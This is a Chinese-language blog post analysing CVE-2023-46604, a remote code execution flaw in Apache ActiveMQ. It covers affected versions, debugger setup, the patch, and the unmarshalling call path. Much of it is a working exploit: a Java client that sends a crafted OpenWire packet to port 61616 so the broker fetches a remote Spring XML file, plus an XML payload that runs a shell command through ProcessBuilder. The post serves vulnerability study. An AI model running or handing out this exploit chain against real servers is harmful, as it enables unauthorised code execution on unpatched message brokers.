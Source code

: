 ```yaml
---
title: "CVE-2023-46604 activemq 5.18.3 RCE 分析"
published: 2023-11-13
description: ""
category: 胡乱折腾
tags: 
  - "activemq"
  - "cve"
  - "cve-2023-46604"
---
```


## CVE-2023-46604 activemq<5.18.3 RCE 分析

##### 影响范围

```
Apache ActiveMQ 5.18.0 < 5.18.3
Apache ActiveMQ 5.17.0 < 5.17.6
Apache ActiveMQ 5.16.0 < 5.16.7
Apache ActiveMQ < 5.15.16
```

##### 参考

[Apache ActiveMQ RCE 分析 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/12929)

[CVE-2023-46604 activemq<5.18.3 RCE 分析 - KingBridge - 博客园 (cnblogs.com)](https://www.cnblogs.com/kingbridge/articles/17812062.html)

##### 配置调试环境

在activemq官网下载一环境和源码。我的是在ubuntu上部署的环境

jdk11+

然后在bin/linux-x86-64/wrapper.conf中添加远程调试信息

```
wrapper.java.additional.14=-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005
```

然后在调试电脑用idea打开源码然后添加远程调式就行了。

#### 分析

在最新版中，添加了一条限制

```java
    public static void validateIsThrowable(Class<?> clazz) {
        if (!Throwable.class.isAssignableFrom(clazz)) {
            throw new IllegalArgumentException("Class " + clazz + " is not assignable to Throwable");
        }
    }
```

限制加载的类只能是Throwable的子类

然后在BaseDataStreamMarshaller.java中调用了上面的限制函数

```
private Throwable createThrowable(String className, String message) {
        try {
            Class clazz = Class.forName(className, false, BaseDataStreamMarshaller.class.getClassLoader());
            OpenWireUtil.validateIsThrowable(clazz);  //这个就是新版的增加的一处限制
            Constructor constructor = clazz.getConstructor(new Class[] {String.class});
            return (Throwable)constructor.newInstance(new Object[] {message});
        } catch (IllegalArgumentException e) {
            return e;
        } catch (Throwable e) {
            return new Throwable(className + ": " + message);
        }
    }
```

这个函数很明显了，就是传入一个className和一个String的参数，然后加载类，得到一个string类型的有参构造方法，然后调用。

然后根据参考别人的文章知道了序列化对象的处理首先进入的是

```java
org.apache.activemq.openwire.OpenWireFormat#doUnmarshal


public Object doUnmarshal(DataInput dis) throws IOException {
        byte dataType = dis.readByte();
        if (dataType != NULL_TYPE) {
            DataStreamMarshaller dsm = dataMarshallers[dataType & 0xFF];
            if (dsm == null) {
                throw new IOException("Unknown data type: " + dataType);
            }
            Object data = dsm.createObject();
            if (this.tightEncodingEnabled) {
                BooleanStream bs = new BooleanStream();
                bs.unmarshal(dis);
                dsm.tightUnmarshal(this, data, dis, bs);
            } else {
                dsm.looseUnmarshal(this, data, dis);
            }
            return data;
        } else {
            return null;
        }
    }
```

逻辑比较简单，根据dataType的值从dataMarshallers中得到不同的类

后面的话就是通过不同的tightEncodeingEnabled进行不同处理

然后根据createThrowable调用查找，锁定了ExceptionResponseMarshaller

```java
    public void tightUnmarshal(OpenWireFormat wireFormat, Object o, DataInput dataIn, BooleanStream bs) throws IOException {
        super.tightUnmarshal(wireFormat, o, dataIn, bs);

        ExceptionResponse info = (ExceptionResponse)o;
        info.setException((java.lang.Throwable) tightUnmarsalThrowable(wireFormat, dataIn, bs));

    }
```

```java
    public void looseUnmarshal(OpenWireFormat wireFormat, Object o, DataInput dataIn) throws IOException {
        super.looseUnmarshal(wireFormat, o, dataIn);

        ExceptionResponse info = (ExceptionResponse)o;
        info.setException((java.lang.Throwable) looseUnmarsalThrowable(wireFormat, dataIn));

    }
```

所以调用逻辑就是

```java
OpenWireFormat#doUnmarshal
->ExceptionResponseMarshaller#tightUnmarshal/looseUnmarshal
->BaseDataStreamMarshaller#tightUnmarsalThrowable/looseUnmarsalThrowable
->BaseDataStreamMarshaller#createThrowable
```

所以现在就是想办法实现这个调用。

根据大佬的参考文章，看到一个个手搓报文，挺简单的。不用自己利用activemq构造数据

```java
package org.example;

import javax.xml.crypto.Data;
import java.io.DataOutputStream;
import java.io.IOException;
import java.io.OutputStream;
import java.net.Socket;

public class ScratchExploit {
    public static void main(String[] args) throws IOException {
        Socket socket = new Socket("127.0.0.1", 61616);
        OutputStream os = socket.getOutputStream();
        DataOutputStream dos = new DataOutputStream(os);
        dos.writeInt(0);// size
        dos.writeByte(31);// type
        dos.writeInt(0);// CommandId
        dos.writeBoolean(false);// Command response required
        dos.writeInt(0);// CorrelationId

        // body
        dos.writeBoolean(true);
        // UTF
        dos.writeBoolean(true);
        dos.writeUTF("clazz");
        dos.writeBoolean(true);
        dos.writeUTF("string");

        dos.close();
        os.close();
        socket.close();
    }
}
```

具体的payload就是

```xml
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>touch</value>
        <value>/tmp/success</value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

```java
package org.example;

import java.io.DataOutputStream;
import java.io.IOException;
import java.io.OutputStream;
import java.net.Socket;

public class ScratchExploit {
    public static void main(String[] args) throws IOException {
        Socket socket = new Socket("192.168.133.128", 61616);
        OutputStream os = socket.getOutputStream();
        DataOutputStream dos = new DataOutputStream(os);
        dos.writeInt(0);// size
        dos.writeByte(31);// type
        dos.writeInt(0);// CommandId
        dos.writeBoolean(false);// Command response required
        dos.writeInt(0);// CorrelationId

        // body
        dos.writeBoolean(true);
        // UTF
        dos.writeBoolean(true);
        dos.writeUTF("org.springframework.context.support.ClassPathXmlApplicationContext");
        dos.writeBoolean(true);
        dos.writeUTF("http://127.0.0.1:8000/a.xml");

        dos.close();
        os.close();
        socket.close();
    }
}
```

